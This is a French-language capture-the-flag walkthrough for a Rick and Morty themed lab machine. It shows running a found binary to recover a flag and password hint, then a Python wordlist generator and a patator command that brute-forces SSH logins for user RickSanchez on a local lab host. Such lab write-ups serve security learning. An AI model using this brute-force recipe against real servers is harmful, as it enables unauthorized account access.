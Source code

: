![unzip_txt](/images/home_rick.png)

À première vue le fichier `NotAFlag.txt` n'est pas un flag. Par contre le
fichier `safe` est deja plus interessant. On se rend compte que c'est un
exécutable. On veut pouvoir faire mumuse avec, alors nous allons le copier
dans notre home puis l'exécuter.

``` sh
cp /home/RickSanchez/RICKS_SAFE/safe /home/Summer/. ; cd ; ./safe
```

![run_safe](/images/run_safe.png)

Ça y est&nbsp;! Vous aussi vous faites la relation avec ce que ce bon vieux
Morty a dit&nbsp;?
Très bien réessayons mais avec comme premiers arguments 131333.

![decrypt_succes](/images/decrypt_succes.png)

On touche au but&nbsp;! En plus d'avoir trouvé  le flag
*{And Awwwaaaaayyyy We Go!}* qui nous fait avoir 20 points en plus et donc
arriver a 100 / 130 points ; il nous explique même comment se connecter avec
RickSanchez en [ssh](https://linux.die.net/man/1/ssh)&nbsp;!

![Wiki_rick](/images/Wiki_rick.png)

Comme Tout le monde le sait le groupe de Rick était `The Flesh Curtains`,
 mais dans le doute on a quand même vérifier sur
 l'internet. Il ne nous reste plus qu'à écrire un
 petit script.

``` sh
cat > generator_mdp.py
import string
grp_name = ("The", "Flesh", "Curtains")
with open("mdp.txt", 'w') as f:
    for l in string.uppercase:
        for d in string.digits:
            for g in grp_name:
                f.write(l + d + g + '\n')
```

Maintenant qu'on a notre script on va générer toutes les combinaisons de
 mot de passe puis essayer de retrouver le mot de passe grâce à
 [patator](https://tools.kali.org/password-attacks/patator).

``` sh
python generator_mdp.py ; patator ssh_login user=RickSanchez host=192.168.1.14 port=22222 password=FILE0 0=mdp.txt -x ignore:mesg='Authentication failed.'
```

Et on a notre mot de passe. Essayons de nous connecter en
[ssh](https://linux.die.net/man/1/ssh) en rentrant ce mot de passe

![ssh_rick_connection](/images/ssh_rick_connection.png)
